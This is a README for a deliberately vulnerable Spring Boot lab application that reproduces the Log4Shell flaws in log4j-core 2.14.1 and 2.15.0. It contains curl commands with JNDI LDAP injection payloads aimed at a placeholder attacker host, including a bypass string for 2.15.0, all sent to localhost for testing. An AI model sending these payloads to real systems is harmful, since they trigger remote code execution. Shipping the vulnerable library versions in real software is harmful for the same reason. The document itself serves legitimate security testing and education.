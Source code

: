 # Log4Shell sample vulnerable application

This repository contains Spring Boot web applications vulnerable to [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).


## Variants
### cve-2021-44228 (log4j-core: 2.14.1)
* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.14.1

```bash
cd log4j-2.14.1
sudo docker build -t vulnerable-app-log4shell-2.14.1 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4shell-2.14.1 --rm vulnerable-app-log4shell-2.14.1
```

Trigger the vulnerability using:

```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

### cve-2021-45046 (log4j-core: 2.15.0)
https://www.whitesourcesoftware.com/resources/blog/log4j-vulnerability-cve-2021-45046/


* JDK: openjdk:8u312-jdk-slim
* SpringLog4J: org.springframework.boot:spring-boot-starter-log4j2:2.6.1 (https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2/2.6.1)
* log4j-core: 2.15.0

```bash
cd log4j-2.15.0
sudo docker build -t vulnerable-app-log4shell-2.15.0 .
sudo docker run -p 8000:8080 --name vulnerable-app-log4shell-2.15.0 --rm vulnerable-app-log4shell-2.15.0
```

Does not work anymore:
```bash
curl 127.0.0.1:8000/old -H 'X-Api-Version: ${jndi:ldap://your-private-ip.com/abc}'
```

Trigger the vulnerability using:
```bash
curl 127.0.0.1:8000 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1#your-private-ip.com/abc}'
```

Why this works: https://twitter.com/marcioalm/status/1471742744347348997


When the logging configuration uses a non-default Pattern Layout with a Context Lookup (for example, $${ctx:loginId}), attackers with control over Thread Context Map (MDC) input data can craft malicious input data using a JNDI Lookup pattern, resulting in an information leak and remote code execution in some environments and local code execution in all environments; remote code execution has been demonstrated on MacOS, Fedora, Arch Linux, and **Alpine Linux**.
https://logging.apache.org/log4j/2.x/security.html

## Forked from
https://github.com/christophetd/log4shell-vulnerable-app

thanks to

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
